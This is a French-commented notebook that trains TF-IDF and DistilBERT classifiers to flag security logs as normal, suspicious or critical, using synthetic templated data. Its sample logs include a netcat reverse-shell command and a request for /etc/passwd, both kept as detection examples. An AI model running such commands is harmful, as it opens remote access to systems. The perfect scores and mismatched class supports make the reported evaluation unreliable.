In [25]:
import re
import os
import numpy as np
import pandas as pd
import matplotlib.pyplot as plt
import warnings
warnings.filterwarnings('ignore')

from sklearn.feature_extraction.text import TfidfVectorizer
from sklearn.linear_model import LogisticRegression
from sklearn.pipeline import Pipeline
from sklearn.metrics import classification_report, confusion_matrix, ConfusionMatrixDisplay
from sklearn.model_selection import train_test_split

import torch
from torch.utils.data import Dataset, DataLoader
from transformers import (
    AutoTokenizer,
    AutoModelForSequenceClassification,
    get_linear_schedule_with_warmup,
)
from torch.optim import AdamW

import joblib

os.makedirs('models', exist_ok=True)
os.makedirs('plots', exist_ok=True)

DEVICE = torch.device("cuda" if torch.cuda.is_available() else "cpu")
print(f"✅ Device utilisé : {DEVICE}")

LABELS = ["normal", "suspicious", "critical"]
LABEL2ID = {l: i for i, l in enumerate(LABELS)}
ID2LABEL = {i: l for l, i in LABEL2ID.items()}

✅ Device utilisé : cpu


In [ ]:
LOG_PATTERNS = {
    "sshd_failed":    r"sshd.*Failed password for (?P<user>\S+) from (?P<ip>[\d.]+)",
    "sshd_accepted":  r"sshd.*Accepted password for (?P<user>\S+) from (?P<ip>[\d.]+)",
    "sudo_command":   r"sudo.*COMMAND=(?P<cmd>.+)",
    "http_request":   r'"(?P<method>GET|POST|PUT|DELETE) (?P<path>\S+) HTTP/[\d.]+" (?P<status>\d{3})',
    "firewall_deny":  r"DENY.*SRC=(?P<src>[\d.]+).*DST=(?P<dst>[\d.]+).*DPT=(?P<dport>\d+)",
    "login_success":  r"Successful login.*user=(?P<user>\S+).*ip=(?P<ip>[\d.]+)",
}

def parse_log_line(line):
    """Essaie chaque pattern. Retourne un dict avec event_type + champs extraits."""
    for event_type, pattern in LOG_PATTERNS.items():
        m = re.search(pattern, line, re.IGNORECASE)
        if m:
            return {"event_type": event_type, **m.groupdict(), "raw": line}
    return {"event_type": "unknown", "raw": line}

print("✅ Patterns de parsing définis")
print(f"   Types d'événements reconnus : {list(LOG_PATTERNS.keys())}")

✅ Patterns de parsing définis
   Types d'événements reconnus : ['sshd_failed', 'sshd_accepted', 'sudo_command', 'http_request', 'firewall_deny', 'login_success']


In [ ]:

example_logs = [
    "sshd[1234]: Accepted password for alice from 192.168.1.10 port 22 ssh2",
    "sshd[2222]: Failed password for root from 45.33.32.156 port 43210 ssh2",
    'nginx: "GET /admin HTTP/1.1" 403 512',
    "sudo: eve COMMAND=/bin/nc -e /bin/bash 10.0.0.99 4444",
    "kernel: DENY IN=eth0 SRC=185.220.101.42 DST=10.0.0.1 DPT=22",
]

print("📋 Exemple de parsing :\n")
parsed_examples = []
for log in example_logs:
    result = parse_log_line(log)
    parsed_examples.append(result)
    print(f"RAW  : {log}")
    print(f"PARSED: {result}\n")

parsed_df = pd.DataFrame(parsed_examples)
parsed_df

📋 Exemple de parsing :

RAW  : sshd[1234]: Accepted password for alice from 192.168.1.10 port 22 ssh2
PARSED: {'event_type': 'sshd_accepted', 'user': 'alice', 'ip': '192.168.1.10', 'raw': 'sshd[1234]: Accepted password for alice from 192.168.1.10 port 22 ssh2'}

RAW  : sshd[2222]: Failed password for root from 45.33.32.156 port 43210 ssh2
PARSED: {'event_type': 'sshd_failed', 'user': 'root', 'ip': '45.33.32.156', 'raw': 'sshd[2222]: Failed password for root from 45.33.32.156 port 43210 ssh2'}

RAW  : nginx: "GET /admin HTTP/1.1" 403 512
PARSED: {'event_type': 'http_request', 'method': 'GET', 'path': '/admin', 'status': '403', 'raw': 'nginx: "GET /admin HTTP/1.1" 403 512'}

RAW  : sudo: eve COMMAND=/bin/nc -e /bin/bash 10.0.0.99 4444
PARSED: {'event_type': 'sudo_command', 'cmd': '/bin/nc -e /bin/bash 10.0.0.99 4444', 'raw': 'sudo: eve COMMAND=/bin/nc -e /bin/bash 10.0.0.99 4444'}

RAW  : kernel: DENY IN=eth0 SRC=185.220.101.42 DST=10.0.0.1 DPT=22
PARSED: {'event_type': 'firewall_deny', 

,event_type,user,ip,raw,method,path,status,cmd,src,dst,dport
0,sshd_accepted,alice,192.168.1.10,sshd[1234]: Accepted password for alice from 1...,NaN,NaN,NaN,NaN,NaN,NaN,NaN
1,sshd_failed,root,45.33.32.156,sshd[2222]: Failed password for root from 45.3...,NaN,NaN,NaN,NaN,NaN,NaN,NaN
2,http_request,NaN,NaN,"nginx: ""GET /admin HTTP/1.1"" 403 512",GET,/admin,403,NaN,NaN,NaN,NaN
3,sudo_command,NaN,NaN,sudo: eve COMMAND=/bin/nc -e /bin/bash 10.0.0....,NaN,NaN,NaN,/bin/nc -e /bin/bash 10.0.0.99 4444,NaN,NaN,NaN
4,firewall_deny,NaN,NaN,kernel: DENY IN=eth0 SRC=185.220.101.42 DST=10...,NaN,NaN,NaN,NaN,185.220.101.42,10.0.0.1,22


In [7]:
def generate_synthetic_logs(n=2000):
    templates = {
        "normal": [
            "sshd[1234]: Accepted password for alice from 192.168.1.10 port 22 ssh2",
            "kernel: ALLOW IN=eth0 SRC=10.0.0.5 DST=10.0.0.1 DPT=80",
            'nginx: "GET /index.html HTTP/1.1" 200 1024',
            "sudo: bob COMMAND=/usr/bin/ls",
            "Successful login event user=carol ip=172.16.0.5",
        ],
        "suspicious": [
            "sshd[2222]: Failed password for root from 45.33.32.156 port 43210 ssh2",
            'nginx: "GET /admin HTTP/1.1" 403 512',
            "sudo: UNKNOWN_USER COMMAND=/bin/bash",
            "kernel: DENY IN=eth0 SRC=185.220.101.42 DST=10.0.0.1 DPT=22",
            "Multiple failed login attempts user=admin ip=198.51.100.7",
        ],
        "critical": [
            "sshd[9999]: Failed password for root from 1.2.3.4 port 12345 ssh2 (repeated 50x)",
            'nginx: "POST /wp-login.php HTTP/1.1" 200 1234',
            "sudo: eve COMMAND=/bin/nc -e /bin/bash 10.0.0.99 4444",
            'nginx: "GET /etc/passwd HTTP/1.1" 200 2048',
            "kernel: DENY IN=eth0 SRC=192.0.2.1 DST=10.0.0.1 DPT=3389",
        ],
    }
    rows = []
    np.random.seed(42)
    for _ in range(n):
        label = np.random.choice(["normal", "suspicious", "critical"], p=[0.70, 0.20, 0.10])
        text = np.random.choice(templates[label])
        rows.append({"text": text, "label": label})
    return pd.DataFrame(rows)


df_logs = generate_synthetic_logs(n=2000)
print(f"📊 Dataset généré : {len(df_logs)} logs")
print(f"\nDistribution des labels :")
print(df_logs['label'].value_counts())
df_logs.head(10)

📊 Dataset généré : 2000 logs

Distribution des labels :
label
normal        1413
suspicious     400
critical       187
Name: count, dtype: int64


,text,label
0,Successful login event user=carol ip=172.16.0.5,normal
1,Successful login event user=carol ip=172.16.0.5,normal
2,kernel: ALLOW IN=eth0 SRC=10.0.0.5 DST=10.0.0....,normal
3,"nginx: ""GET /index.html HTTP/1.1"" 200 1024",normal
4,Successful login event user=carol ip=172.16.0.5,normal
5,"nginx: ""GET /index.html HTTP/1.1"" 200 1024",normal
6,kernel: ALLOW IN=eth0 SRC=10.0.0.5 DST=10.0.0....,normal
7,"nginx: ""GET /admin HTTP/1.1"" 403 512",suspicious
8,Successful login event user=carol ip=172.16.0.5,normal
9,kernel: ALLOW IN=eth0 SRC=10.0.0.5 DST=10.0.0....,normal




In [ ]:

fig, ax = plt.subplots(figsize=(7, 4))
colors = {"normal": "#1D9E75", "suspicious": "#E5A23B", "critical": "#D85A30"}
counts = df_logs['label'].value_counts()
counts.plot(kind='bar', ax=ax, color=[colors[l] for l in counts.index], edgecolor='none')
ax.set_title("Distribution des labels — Dataset de logs", fontsize=13, fontweight='bold')
ax.set_ylabel("Nombre de logs")
for i, v in enumerate(counts.values):
    ax.text(i, v + 10, f'{v}', ha='center', fontsize=10)
plt.xticks(rotation=0)
plt.tight_layout()
plt.savefig('plots/nlp_label_distribution.png', dpi=150, bbox_inches='tight')
plt.show()

In [9]:
print("[TF-IDF + Logistic Regression] Entraînement...")

X_train_txt, X_test_txt, y_train_txt, y_test_txt = train_test_split(
    df_logs["text"], df_logs["label"], test_size=0.2,
    random_state=42, stratify=df_logs["label"]
)

tfidf_pipeline = Pipeline([
    ("tfidf", TfidfVectorizer(ngram_range=(1, 2), max_features=10_000, sublinear_tf=True)),
    ("clf", LogisticRegression(max_iter=500, C=1.0, class_weight="balanced", random_state=42)),
])

tfidf_pipeline.fit(X_train_txt, y_train_txt)
y_pred_tfidf = tfidf_pipeline.predict(X_test_txt)

print(classification_report(y_test_txt, y_pred_tfidf, target_names=LABELS))

joblib.dump(tfidf_pipeline, 'models/tfidf_logreg.pkl')
print("✅ Modèle sauvegardé → models/tfidf_logreg.pkl")

[TF-IDF + Logistic Regression] Entraînement...
              precision    recall  f1-score   support

      normal       1.00      1.00      1.00        37
  suspicious       1.00      1.00      1.00       283
    critical       1.00      1.00      1.00        80

    accuracy                           1.00       400
   macro avg       1.00      1.00      1.00       400
weighted avg       1.00      1.00      1.00       400

✅ Modèle sauvegardé → models/tfidf_logreg.pkl




In [ ]:

cm = confusion_matrix(y_test_txt, y_pred_tfidf, labels=LABELS)
disp = ConfusionMatrixDisplay(cm, display_labels=LABELS)
fig, ax = plt.subplots(figsize=(5, 5))
disp.plot(ax=ax, colorbar=False, cmap="Purples")
ax.set_title("TF-IDF + LogReg — Matrice de confusion")
plt.tight_layout()
plt.savefig('plots/tfidf_cm.png', dpi=150, bbox_inches='tight')
plt.show()



In [ ]:

tfidf_vec = tfidf_pipeline.named_steps['tfidf']
clf = tfidf_pipeline.named_steps['clf']
feature_names = np.array(tfidf_vec.get_feature_names_out())

fig, axes = plt.subplots(1, 3, figsize=(15, 4))
for i, label in enumerate(LABELS):
    top_idx = np.argsort(clf.coef_[i])[-10:]
    top_words = feature_names[top_idx]
    top_scores = clf.coef_[i][top_idx]
    axes[i].barh(top_words, top_scores, color=colors[label])
    axes[i].set_title(f"Top mots-clés — '{label}'")
    axes[i].set_xlabel("Poids (coefficient)")

plt.suptitle("Mots-clés les plus discriminants par classe (TF-IDF)", fontsize=13, fontweight='bold')
plt.tight_layout()
plt.savefig('plots/tfidf_top_words.png', dpi=150, bbox_inches='tight')
plt.show()

In [12]:
BERT_MODEL_NAME = "distilbert-base-uncased"

print(f"[DistilBERT] Chargement du tokenizer et du modèle ({BERT_MODEL_NAME})...")
print("   (Premier lancement : téléchargement ~250 Mo)")

tokenizer = AutoTokenizer.from_pretrained(BERT_MODEL_NAME)
bert_model = AutoModelForSequenceClassification.from_pretrained(
    BERT_MODEL_NAME,
    num_labels=len(LABELS),
    id2label=ID2LABEL,
    label2id=LABEL2ID,
).to(DEVICE)

print("✅ Modèle chargé")

[DistilBERT] Chargement du tokenizer et du modèle (distilbert-base-uncased)...
   (Premier lancement : téléchargement ~250 Mo)


Loading weights: 100%|██████████| 100/100 [00:00<00:00, 6035.40it/s]
[transformers] DistilBertForSequenceClassification LOAD REPORT from: distilbert-base-uncased
Key                     | Status     | 
------------------------+------------+-
vocab_layer_norm.weight | UNEXPECTED | 
vocab_layer_norm.bias   | UNEXPECTED | 
vocab_projector.bias    | UNEXPECTED | 
vocab_transform.bias    | UNEXPECTED | 
vocab_transform.weight  | UNEXPECTED | 
classifier.weight       | MISSING    | 
pre_classifier.bias     | MISSING    | 
pre_classifier.weight   | MISSING    | 
classifier.bias         | MISSING    | 

Notes:
- UNEXPECTED:	can be ignored when loading from different task/architecture; not ok if you expect identical arch.
- MISSING:	those params were newly initialized because missing from the checkpoint. Consider training on your downstream task.


✅ Modèle chargé


In [13]:
class LogDataset(Dataset):
    def __init__(self, texts, labels, tokenizer, max_len=128):
        self.texts = list(texts)
        self.labels = [LABEL2ID[l] for l in labels]
        self.tokenizer = tokenizer
        self.max_len = max_len

    def __len__(self):
        return len(self.texts)

    def __getitem__(self, idx):
        enc = self.tokenizer(
            self.texts[idx],
            max_length=self.max_len,
            padding="max_length",
            truncation=True,
            return_tensors="pt",
        )
        return {
            "input_ids": enc["input_ids"].squeeze(0),
            "attention_mask": enc["attention_mask"].squeeze(0),
            "label": torch.tensor(self.labels[idx], dtype=torch.long),
        }

train_ds = LogDataset(X_train_txt, y_train_txt, tokenizer)
test_ds  = LogDataset(X_test_txt, y_test_txt, tokenizer)

train_dl = DataLoader(train_ds, batch_size=16, shuffle=True)
test_dl  = DataLoader(test_ds, batch_size=16)

print(f"✅ Datasets prêts : {len(train_ds)} train / {len(test_ds)} test")

✅ Datasets prêts : 1600 train / 400 test


In [27]:
print("[DistilBERT] Fine-tuning (3 epochs)...")

EPOCHS = 3
optimizer = AdamW(bert_model.parameters(), lr=2e-5, weight_decay=0.01)
total_steps = len(train_dl) * EPOCHS
scheduler = get_linear_schedule_with_warmup(
    optimizer,
    num_warmup_steps=int(0.1 * total_steps),
    num_training_steps=total_steps,
)

bert_losses = []

for epoch in range(1, EPOCHS + 1):
    bert_model.train()
    total_loss = 0.0
    for batch in train_dl:
        ids  = batch["input_ids"].to(DEVICE)
        mask = batch["attention_mask"].to(DEVICE)
        labs = batch["label"].to(DEVICE)

        out = bert_model(input_ids=ids, attention_mask=mask, labels=labs)
        loss = out.loss

        optimizer.zero_grad()
        loss.backward()
        torch.nn.utils.clip_grad_norm_(bert_model.parameters(), 1.0)
        optimizer.step()
        scheduler.step()

        total_loss += loss.item()

    avg_loss = total_loss / len(train_dl)
    bert_losses.append(avg_loss)
    print(f"  Epoch {epoch}/{EPOCHS}  Train Loss: {avg_loss:.4f}")

print("\n✅ Fine-tuning terminé")

[DistilBERT] Fine-tuning (3 epochs)...
  Epoch 1/3  Train Loss: 0.4623
  Epoch 2/3  Train Loss: 0.0133
  Epoch 3/3  Train Loss: 0.0061

✅ Fine-tuning terminé
